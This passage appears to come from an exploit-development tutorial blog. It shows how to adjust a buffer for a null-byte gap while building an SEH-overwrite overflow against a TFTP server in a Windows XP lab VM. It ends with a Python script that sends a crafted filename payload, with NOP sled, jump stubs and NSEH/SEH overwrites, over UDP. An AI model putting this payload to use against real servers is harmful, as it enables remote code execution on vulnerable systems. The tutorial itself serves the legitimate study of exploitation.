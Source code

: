 Ok so lets try that now.



[![](https://1.bp.blogspot.com/-P5W2xs8OhcA/UK6N5x2V7xI/AAAAAAAAAH4/GVjAs2SE28c/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_041.png)](https://1.bp.blogspot.com/-P5W2xs8OhcA/UK6N5x2V7xI/AAAAAAAAAH4/GVjAs2SE28c/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_041.png)



:) Seems like we are nearly there. And we are...minus one odd little thing.



The Odd Byte Error



If you look in the above screenshot you will see that we have our long string of A's on the left hand side. But if you have been paying attention (or just weren't listening intently to me :P ) you will see that the string of A's are broken up on the line with offset `E0` on the left hand side.



We see that our A's get turned into 0's at this location. Looking at the rest of our buffer we see that this is the only location that this happens.



Ok so lets see how far this is from the beginning from beginning of the beginning of buffer so we can adjust for this.



Well atm the arrow points to the beginning of our buffer and counting along the line we see it is the 8th byte in the line. Considering the first byte is `E0`, we can say that `E7` is the first NULL byte.



`E7` in decimal is 231 bytes. So after 230 bytes we get a 4 byte space of nulls. So if we prepend 230 bytes of junk before our set of As we should be able to deal with this problem.



Well thats not entirely right. It seems I was two bytes off from the start of the 0's. Lets up our `\x90`'s by 6 (2 for the 2 bytes and then another 4 to cover the null byte space). So we will use 236 bytes of junk instead.


```python
import socket

host = "127.0.0.1"
port = 69

filename = "\x90" * 236
filename += "A" * (1492-126-236) # 126 for the space that we jump to. 236 for the space up to and including the 4 byte null space.
filename += "\x83\xC5\x50" * 15
filename += "\xFF\xE5"
filename += "\xCC" * ( 126 - ((15 * 3) + 2) )
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite

mode = "netascii"
data = "\x00\x02" + filename + "\0" + mode + "\0"

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```
